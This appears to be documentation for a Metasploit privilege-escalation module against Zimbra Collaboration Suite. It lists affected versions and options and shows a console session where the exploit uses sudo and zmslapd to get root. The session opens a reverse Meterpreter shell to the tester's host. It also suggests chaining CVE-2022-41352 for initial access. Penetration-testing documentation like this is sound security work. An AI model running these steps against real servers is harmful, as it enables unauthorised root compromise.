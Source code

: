 ## Vulnerable Application

The following versions of Zimbra are vulnerable:

* Zimbra Collaboration Suite 9.0.0 Patch 26 and earlier
* Zimbra Collaboration Suite 8.8.15 Patch 33 and earlier

## Verification Steps

Install Zimbra on any supported Linux version and get a session as the `zimbra`
user. The easiest way to exploit zimbra is to `rm $(which pax)`, reboot, and
use CVE-2022-41352. Or generate a Meterpreter payload with `msfvenom` and run
it.

From there:

```
msf6 exploit(linux/fileformat/unrar_cve_2022_30333) > sessions -l

Active sessions
===============

  Id  Name  Type                   Information                  Connection
  --  ----  ----                   -----------                  ----------
  10        meterpreter x86/linux  zimbra @ zimbra.example.org  10.0.0.146:4444 -> 10.0.0.154:39800 (10.0.0.154)

msf6 exploit(linux/fileformat/unrar_cve_2022_30333) > use exploit/linux/local/zimbra_slapper_priv_esc
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/local/zimbra_slapper_priv_esc) > set SESSION 10
SESSION => 10
msf6 exploit(linux/local/zimbra_slapper_priv_esc) > exploit

[*] Started reverse TCP handler on 10.0.0.146:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Executing: sudo -n -l
[+] The target is vulnerable.
[*] Creating exploit directory: /tmp/.5kq9XO
[*] Attempting to trigger payload: sudo /opt/zimbra/libexec/zmslapd -u root -g root -f /tmp/.5kq9XO/.1wNk1h3
[*] Sending stage (3020772 bytes) to 10.0.0.154
[+] Deleted /tmp/.5kq9XO
[*] Meterpreter session 13 opened (10.0.0.146:4444 -> 10.0.0.154:40044) at 2022-07-21 14:04:12 -0700

meterpreter > getuid
Server username: root
```

## Options

### SUDO_PATH

The path to `sudo` on the host. If we have a proper environment with `$PATH` set, which we generally do, simply `sudo` is fine.

### ZIMBRA_BASE

The base where Zimbra is installed. Zimbra typically installs to `/opt/zimbra`, and I'm not even sure if it _can_ install elsewhere, so this default should be fine.
